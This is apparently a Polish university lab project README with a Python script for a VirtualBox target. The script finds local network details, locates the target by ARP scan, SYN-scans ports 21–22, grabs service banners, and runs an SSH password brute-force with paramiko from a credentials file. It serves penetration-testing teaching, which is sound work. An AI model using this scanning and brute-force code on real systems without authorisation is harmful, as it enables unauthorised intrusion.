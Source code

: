 # Projekt-JDD

Grupa w składzie:
- Jerzy Tarasiewicz
- Damian Tomala
- Dorota Gliniak

Grupa podjęła decyzję o tym aby wszystkie 6 zadań były w jednym pliku pod tytułem "project.py".

# Zadanie numer 1:
Ustalić własny IP.
W terminalu wykonaliśmy polecenie (ip a)
Załączniki w postaci screenshotów:
-Zadanie 1 SS1
-Zadanie 1 SS2

# Zadanie numer 2:
Ustalić maskę podsieci.
W terminalu wykonalismy polecenie (ifconfig)
Załączniki w postaci screenshotów:
- Zadanie 2 SS1
- Zadanie 2 SS2

# Zadanie numer 3:
Na podstawie powyższych informacji przeskanować sieć i ustalić adres IP celu.

Otworzyliśmy VBox i sprawdziliśmy MAC adres celu. Po czym ustaliliśmy adres IP celu na podstawie zadania 1 oraz 2.
Załączniki w postaci screenshotów:
- Zadanie 3 SS1
- Zadanie 3 SS2

# Zadanie numer 4:
Ustalić otwarte porty na atakowanej maszynie.

Załączniki w postaci screenshotów:
- Zadanie 4 SS1

# Zadanie numer 5:
Ustalić nazwę oraz wersję oprogramowania dla wszystkich znalezionych usług (banner grabbing).

Załączniki w postaci screenshotów:
- Zadanie 4 SS1

# Zadanie numer 6:
Przeprowadzić atak brute-force na dowolną znalezioną usługę (nie musi się udać).

Załączniki w postaci screenshotów:
- Zadanie 6 SS1



# KOD

######################## 1 - GET LOCAL IP ADDRESS ################################

print("1", "\n")
import socket

def get_local_ip():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    try:
        s.connect(('10.255.255.255', 1))
        IP = s.getsockname()[0]
    except:
        IP = '127.0.0.1'
    finally:
        s.close()
    return IP

local_ip = get_local_ip()
print("My local IP: ", local_ip)

##################################### 2 - GET MASK ADDRESS #####################################

print("2", "\n")
from pyroute2 import IPRoute

ip = IPRoute()
info = [{'iface': x['index'], 'addr': x.get_attr('IFA_ADDRESS'), 'mask':  x['prefixlen']} for x in ip.get_addr()]
a = info[1]

for k, v in a.items():
    if k == 'mask':
        break
masks = {0:'0.0.0.0', 1:'128.0.0.0', 2:'192.0.0.0', 3:'224.0.0.0', 4:'240.0.0.0', 5:'248.0.0.0', 6:'252.0.0.0', 7:'254.0.0.0', 8:'255.0.0.0', 9:'255.128.0.0', 10:'255.192.0.0', 11:'255.224.0.0', 12:'255.240.0.0', 13:'255.248.0.0', 14:'255.252.0.0', 15:'255.254.0.0', 16:'255.255.0.0', 17:'255.255.128.0', 18:'255.255.192.0', 19:'255.255.224.0', 20:'255.255.240.0', 21:'255.255.248.0', 22:'255.255.252.0', 23:'255.255.254.0', 24:'255.255.255.0', 25:'255.255.255.128', 26:'255.255.255.192', 27:'255.255.255.224', 28:'255.255.255.240', 29:'255.255.255.248', 30:'255.255.255.252', 31:'255.255.255.254', 32:'255.255.255.255'}

for index, mask in masks.items():

    if index == v:
        index == mask
        print("My local netmask: ", mask)
        break

####################################### 3 - Looking for target IP ########################################
print("3", "\n")

from scapy.all import *
from scapy.layers.inet import IP, TCP, Ether
from scapy.layers.l2 import ARP

for i in range(100, 105):
    ip = "192.168.0.{}".format(i)
    pakiet = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=ip, hwdst="ff:ff:ff:ff:ff:ff")
    dane = srp1(pakiet, timeout=1, verbose=0)
    target_MAC = '08:00:27:89:f6:2e'

    if dane:
        # print("adres IP: {}, adres MAC: {}".format(str(dane.psrc), str(dane.hwsrc)))
        if target_MAC == dane.hwsrc:
            print("Target IP: ", str(dane.psrc))
            target_IP = dane.psrc

################################## 4 - Ports scaning #####################################
print("4", "\n")
cel = target_IP
pakiet = IP(dst="google.com")/ICMP()/"Projekt"
for port in range(21, 23):
    pakiet = IP(dst=cel)/TCP(dport=[port], flags = "S")
    rec, wrong = sr(pakiet, timeout=1, verbose=0) #timeout - dlugosc zycia, verbose - ilosc wyswietlanych inf zwrotnych 0 - 3

    if rec:
        usluga = "{}".format(str(str(rec[0]).split(" ")[7][6:]))
        dane = f"Port: {port} otwarty, usluga = {usluga}"
        print(dane)
    else:
        continue


################################## 5 - Banner Grabbing #####################################
print("5", "\n")
import socket
import sys

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

target = target_IP

for port in range(21, 23):
    try:
        connection = s.connect((target, port))
        print(f"[+] {target}: port {port} is OPEN")
        s.send("Get banner \r\n".encode())
        response = s.recv((2048)).decode()
        print("Name and version service: ", response)
    except:
#        print(f"[-] {target}: port {port} is CLOSED")
        pass

############################################ 6 - Brute Force ########################################
print("6", "\n")
import paramiko

with open('correctpasses.txt') as f:
    users = f.read().splitlines()

target = target_IP
ssh_server = paramiko.SSHClient()
ssh_server.set_missing_host_key_policy(paramiko.AutoAddPolicy)
ssh_server.load_system_host_keys()
port = 22
print("program in progress")

for user in users:
    for password in users:
        try:
            #print(f"[*] Trying> {user}:{password}", end="")
            ssh_server.connect(target, port, user, password)
            print(f" - SUCCESS")
            print(f"Correct login and password: > {user}:{password}")
            ssh_server.close()
        except Exception as exc:
            # print("[-] Brute-force attack failed!")
            pass
